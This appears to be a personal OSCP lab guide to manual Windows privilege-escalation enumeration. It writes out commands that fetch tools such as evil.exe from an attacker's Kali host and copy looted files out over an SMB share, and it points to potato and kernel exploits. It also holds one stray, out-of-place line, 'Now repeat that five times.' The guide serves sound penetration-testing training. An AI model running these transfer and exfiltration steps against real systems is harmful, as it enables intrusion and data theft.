 # Windows Enumeration 

I will do **Manual Enumeration** before running WinPEAS. 

Now repeat that five times.

Many OSCP boxes are designed in a way where WinPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a Windows host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc.exe (which you need to transfer from your kali) or a msfvenom payload.

## How to transfer files from Kali to Windows

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using C:\Users\Public or if you land a shell as a user, you can use that user's directory.

```cmd
certutil.exe -urlcache -split -f http://<kali ip>/<file you want to transfer> <outputfilename>
```

The powershell equivalent is:

```powershell
iwr -uri http://<kali ip>:<port>/<file> -OutFile <outfile name>
```

Another fun way of doing it creating a smbshare on kali and then mounting it. This allows for bidrectional data transfers so you can exfiltrate files out of the target.

```bash
# on your kali
# your share name can be anything you like. If you want the cwd to be the share path, you can just put . I usually set up with a username and password as sometimes Windows does not allow you to mount an authentication-less share

impacket-smbserver -smb2support <share name> <local share path> -username kali -password kali

# example. This creates a share called exfil with the path being the directory where impacket-smbserver is being run

impacket-smbserver -smb2support exfil . -username kali -password kali

```

On your windows machine

```cmd
# mounts your exfil share on y drive and pass in kali:kali credentials

net use y: \\<kali ip>\exfil kali /user:kali
```
now you can copy files to and fro
```cmd
#copy loot.txt from target to your kali

copy loot.txt \\<kali ip>\exfil\loot.txt
```
copy evil.exe from kali to your target
```cmd
copy \\<kali ip>\exfil\evil.exe evil.exe
```


## Checking for the Quick Wins

Check the following:

1) Privileges and groups for your current user

- If SeImpersonatePrivilege is there, thank your lucky stars. Check the system arch with systeminfo and then upload the relevant potato exploit to elevate

- If SeShutDownPrivilege is there, note it down. Your PE path may involve service or scheduled task manipulation.

- Dont worry if it says disabled. The more important thing is that the Privilege is there.

- For groups, you are checking for any non default windows groups. Could be something like HelpDesk. Note things like 'Remote Management Users' (WinRM), 'Remote Desktop Users' (RDP) or the easy win 'Backup Operators'.

- If your user is part of 'BackUp Operators', your user can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer.

```cmd
whoami /priv

whoami /groups
```

2) Environment Variables. Sometimes there are hardcoded stuff like creds in your env so give it a quick check

```cmd
SET
```

3) Systeminfo

- Check the OS version and note the patches. If it looks ancient like Windows 7 or Windows Server 2012 or earlier, a kernel exploit like EternalBlue might be the solution. That said, I wont expect to see this in OSCP though you may see it for PG boxes. 

```cmd
systeminfo
```

4) Check the C:\Users directory. This helps you enumerate users and see (or not see) what access you have to their folders as the current user. 

- Note down any files that look out of place and exfiltrate them if required.

```cmd

cd C:\Users

tree /f /a  #this lists the current path in a recursive manner and also reveals hidden files and directories. This is a GREAT command. use this often

```

5) Now check the C:\ root directory. See anything that is NOT Users,Windows,Program Files, Program Files (x86)? *P.S you can safely ignore output.txt. That seems to be some kind of logging for OffSec boxes*

- If there is, investigate the folder. Are there files inside? Can you write into that folder? Can you edit the files? Can you see the contents of the files?

6) If there is a webserver on the host, can you find the root of that webserver and check for config files? 

7) Are there local services? *You can ignore port 53 if you see it* If there are, note it down. If it looks interesting, transfer a ligolo agent and set it up for you to access the local service. 

```cmd
netstat -ano

# On Powershell

Get-Process <PID of interest from the netstat>

```

8) Check for Scheduled Tasks

Not always effective because your current user may not have permissions to view higher access level scheduled tasks so this may not return anything useful. Still no harm taking a quick look at it

```cmd
schtasks /query /fo LIST /v
```

This will output a lot of things. But the relevant stuff will be right at the top. The rest are default stuff. If you dont see anything interesting, it may be that there is nothing there or there is something there that is being run by a higher-priv user and you just dont have the rights to see it.

9) Check for unquoted Service Paths

We can use this when we can write to a service's main or subdirectory but cannot replace files

- Each service maps to an exe file that will be run when the service is started

- the vulnerability lies in paths to the exe where there is one or more spaces and is not enclosed within quotes

- When a service is started and a process is created, the CreateProcess function is used.  The function starts interpreting the path from left to right until it reaches a space and then it appends .exe and the rest is treated as arguments

```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

# if you find any services that dont look like default services (you need to do more boxes and then you will know what is not normal)
# check if our current user can start and stop the service

Start-Service SusService

Stop-Service SusService
```

Well that is about it. If there is nothing so far, it is likely to be related to services or scheduled tasks or some sensitive file buried in the filesystem which winpeas can do for you.
